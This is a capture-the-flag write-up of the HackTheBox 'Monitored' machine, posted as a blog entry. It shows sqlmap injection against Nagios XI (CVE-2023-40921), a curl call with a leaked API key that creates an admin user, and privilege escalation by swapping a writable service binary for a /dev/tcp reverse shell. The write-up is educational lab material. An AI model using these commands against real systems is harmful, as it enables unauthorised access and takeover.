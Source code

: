 ```yaml
---
layout: post
title: "Monitored-Linux-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/d4988810825d26acb2e84ca0ac9feaf4.webp
---
```


# Monitored

HackTheBox: Medium

<aside>
💡 Monitored is a machine with a service powered by nagiosxi which is useful for IT infrastructure monitoring

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled.png' | relative_url }})

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_1.png' | relative_url }})

After some re-search we find some vulnerabilities with a possible slq injection but we need some creds with low privileges

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_2.png' | relative_url }})

## 2: User flag

> If we perform a snmpwalk to get a full list about allow gadgets in the network
> 

There we find some creds, they are no useful for the main page but we can try with sqlmap

> Looking fo vulnerabilities we find a specific url which doesn’t has sanitization in a parameter (id) (CVE-2023-40921)
> 

```bash
sqlmap -u <url> --data "user&password" --level 5 --risk 3 -p id --batch(automatic) -D(db)
nagxi -T(table) --dump(get data)
```

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_4.png' | relative_url }})

> Now we have an auth token and we are able to create a new user for nagios
> 

```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=admin111&password=admin111&name=Admin111&email=admin111@localhost&auth_level=admin"
```

We get into nagios dashboard in the route 

1. Core config 
2. Commands and create a new command(rev shell)
3. apply conf
4. Monitoring→host→local→checkcommand
5. Listen on specific port and user flag got it

## 3: Priv esc

```bash
[linpeas.sh](http://linpeas.sh/):
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
```

We can modify /usr/local/nagios/bin/npcd file.

Check out what we can run as root:

```bash
sudo -l:
....
/usr/local/nagiosxi/scripts/manage_services.sh *
```

We can start/stop npcd.service.

```bash
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
$ rm npcd

## pass a new npcd file with the rev shell lines (Dont try to modify a bin
##in those conditions is almost imposible)

#!/bin/bash

## bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

##Start nc on your local machine, then:
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

machine pwned!!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
